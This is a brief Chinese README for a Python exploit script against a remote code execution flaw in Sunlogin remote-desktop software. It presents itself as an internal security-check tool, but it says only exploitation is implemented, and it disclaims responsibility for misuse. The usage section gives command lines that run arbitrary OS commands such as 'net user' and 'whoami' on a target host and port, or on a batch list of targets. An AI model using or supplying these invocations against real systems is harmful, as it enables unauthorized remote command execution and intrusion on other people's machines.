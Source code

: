 # 向日葵RCE漏洞检测工具

## 使用需知
仅供企业内部安全隐患排查使用

由于传播、利用此工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

## 功能
只写了漏洞利用，暂时没写端口检测

有空再完善代码，及添加批量检测功能


## 使用方法
```shell
Usage: python exp.py -i [--host] -p [--port] -c [--command] -f [--file]
python exp.py -i 127.0.0.1 -p 20038 -c "net user" 
python exp.py  -f targets.txt -c "whoami"
```
![image-20220218041904120](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220222160713132.png)
